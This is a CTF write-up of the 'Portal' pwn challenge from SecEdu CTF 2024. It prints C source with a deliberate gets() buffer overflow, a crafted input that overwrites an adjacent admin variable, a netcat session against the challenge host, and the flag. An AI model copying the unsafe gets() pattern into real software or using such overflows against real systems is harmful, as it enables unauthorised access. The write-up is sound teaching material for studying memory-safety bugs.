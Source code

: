```yaml
---
title: "Portal"
description: "They've given us one of their programs running in the background to us. Let's hope it's not insecure!! (or in your case, that it's not secure instead ;) )\n\n`nc chals.secedu.site 5000`"
pubDate: 2024-09-12
ctf: "SecEdu CTF 2024"
category: "pwn"
author: "sealldev & tulip"
section: "CTFs"
image: "images/24-secedu/icon.png"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/seceduweek12024#portal)

We were given this source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int checkIfA(char *username, char *password);
void printFile();

int main() {
    int admin = 0;
    char protect[] = {'\0', 'A'};
    char username[10];
	char password[5];

    printf("This is the company's employee portal.\n");
    printf("---------------------------------------------\n");
	printf("Please enter your name:\n");
    gets(username);
    printf("Please enter your password:\n");
    gets(password);


    if (strcmp(username, "AAAAAAAAAA") == 0 || strcmp(password, "AAAAA") == 0) {
        printf("What a strange username or password!\n");
        return 1;
    }

    if (admin != 0 && protect[0] == '\0' && protect[1] == 'A') {
        printf("Welcome admin!\n");
        printFile();
        return 0;
    }

    printf("Employee not found!\n");
    return 1;
}

void printFile() {
    FILE *file = fopen("flag.txt", "r");
    int c;
    while ((c = fgetc(file)) != EOF) { fputc(c, stdout); }
    fclose(file);
}
```

We can see that the `admin` variable is initially `0`, there are two `protect` values of `\0` and `A`, and there is a set limit on the `username` and `password` (10 and 5 respectively).

The check then checks if the `username` matches `AAAAAAAAAA` or the `password` matches `AAAAA`, if it does, it exits the program.

The next check is for if the user is an admin:
- The `admin` value needs to be a non-0 value
- The `protect[0]` must be `\0`
- The `protect[1]` must be `A`

That's, it...?

We can do a Buffer Overflow to break this challenge.

The `strcmp` is only checking for an **exact match**, so we could use `B`'s or `a`'s or anything but `A`'s.

We can then overflow to rewrite the `admin` value, but we need to preserve the values of `protect`.

So, we can start with the overflow: `bbbbbbbbbb`, then add the protect values `\0` and `A`, then changing `admin` to a `1`.

The value is `bbbbbbbbbb\0A1`, we can inject the NULL value to netcat with `CTRL+SHIFT+2`, we can then ignore the password value as its never used apart from the `strcmp` check.

```
$ nc chals.secedu.site 5000
This is the company's employee portal.
---------------------------------------------
Please enter your name:
bbbbbbbbbb^@A1
Please enter your password:

Welcome admin!
```

Flag: `SECEDU{por74l_to_n0wh3r3}`